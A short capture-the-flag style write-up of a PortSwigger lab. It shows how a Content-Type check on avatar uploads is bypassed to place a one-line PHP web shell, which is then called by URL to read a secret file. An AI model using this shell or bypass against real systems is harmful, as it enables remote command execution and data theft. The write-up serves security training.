

# [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- On the my account page uploaded simple `image.php` file instead of actual profile image.


`image.php`:

```php
<?php system($_GET['cmd']); ?>
```

- Got content-type error.


- Opened the request in the Repeater tool.

- Changed `Content-Type: application/octet-stream` in body to `image/jpeg` and resend the request.



- Opened url `https://0a6700d0046ef249997abce700e8008c.web-security-academy.net/files/avatars/image.php?cmd=cat%20/home/carlos/secret` to run the `cat /home/carlos/secret` command and obtain the secret flag.
